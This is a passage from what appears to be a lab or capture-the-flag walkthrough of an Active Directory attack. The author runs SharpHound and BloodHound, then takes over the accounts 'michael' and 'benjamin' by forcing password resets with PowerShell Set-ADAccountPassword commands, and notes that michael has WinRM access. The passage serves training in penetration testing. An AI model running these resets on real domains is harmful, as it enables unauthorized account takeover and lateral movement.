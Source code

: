 ```
```

I loaded up SharpHound.&#x20;

<figure><img src="../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

Reset Michael's Password:

```
Set-ADAccountPassword -Identity michael -NewPassword (ConvertTo-SecureString "NewMichaelPass123!" -AsPlainText -Force) -Reset
```

Verify it worked:

```
Get-ADUser -Identity michael -Properties PasswordLastSet
```

Get his groups:

```
Get-ADPrincipalGroupMembership -Identity michael | Select-Object Name

Name
----
Domain Users
Remote Management Users
```

He can WinRM.

<figure><img src="../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

Now, based on BloodHound we need to move once more to a new user, this time Benjamin.

```
Set-ADAccountPassword -Identity benjamin -NewPassword (ConvertTo-SecureString "NewPass123!" -AsPlainText -Force) -Reset
```

<figure><img src="../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>
